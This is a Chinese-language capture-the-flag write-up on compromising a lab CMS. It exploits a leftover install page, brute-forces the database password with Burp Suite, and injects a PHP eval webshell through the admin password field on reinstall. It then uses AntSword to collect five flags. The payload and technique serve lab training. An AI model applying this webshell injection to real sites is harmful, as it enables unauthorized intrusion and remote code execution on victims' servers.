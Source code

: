 ### 一．利用cms重装漏洞

网站系统有重装漏洞。访问[url:http://ip](url:http://ip)地址/?m=install会跳转到安装页面（管理员忘记删除安装文件夹）。

![1568167775473](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\1568167775473.png)

发现flag1：flag1{B372E816B79C9AF6EE82A04F5BBE5020}

### 二．爆破数据库密码

![1568168267871](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\1568168267871.png)

1.使用Burpsuite爆破数据库密码重装。

首先将浏览器配置好Burpsuite代理之后 点击完成提交后抓取到数据包

![1568168586475](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\1568168586475.png)

我们关注的是pass字段 代表着我们填写的数据库密码

将这个数据包发送给intruder模块 进行爆破 

接着选中pass字段后的值点击右侧的Add& 效果如下图

![1568168571329](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\1568168571329.png)

接着切换到payload页面 选择字典

![1568168699525](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\1568168699525.png)

点击右上角start attack 开始攻击

弹出新的窗口显示爆破进度和返回页面的长度 点击Length 按长度排序即可发现password的长度和其他数据包的长度不一样，因此判断正确的数据库密码就是password

![1568168722686](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\1568168722686.png)

2.获取到数据库密码为password。选择重装，密码处填入password，在超级管理员密码处填写

password',"${@eval($_POST[cmd])}",//

一句话木马和注释标记，如下图所示。

![1568168813727](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\1568168813727.png)

提示安装完成，访问后台使用刚才重装的管理员密码：password

![1568169128209](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\1568169128209.png)

![1568169165795](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\1568169165795.png)

3.将鼠标停留在菜单栏上图标“全部展开”找到flag2：

flag2{09FDAA2CF897F3A80AF668B78EA711C9}

如下图所示

![img](http://192.168.33.1/uploads/20180330/permeate_12_html_m1e7c21d8.png)

### 三．蚁剑连接数据库

现在打开蚁剑，连接重装时写入配置文件中的一句话。地址为：ip/webrock/webrockConfig.php（此地址为配置文件路径）并将刚才爆破出来的数据库密码填上地址：`http://192.168.200.110/webrock/webrockConfig.php`

![1568170185389](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\1568170185389.png)

访问数据库管理，在rockoa数据库的flag表中找到flag获取flag3：flag3{25E6AEC56657574713D3C48C2DFDC7BE}

![1568170097155](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\1568170097155.png)

### 四．查看网站目录

打开蚁剑文件管理，发现flag4文件

文件名为flag4{74A093D9454DAF2BB69361B740D18B7C}

![1568170219566](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\1568170219566.png)

### 五．查看系统文件

在C:\Program Files\文件夹中找到文件flag5

![1568170275495](C:\Users\dell\AppData\Roaming\Typora\typora-user-images\1568170275495.png)

flag5：flag5{7B78B56A9F8A0B583FB2EA4E05247206}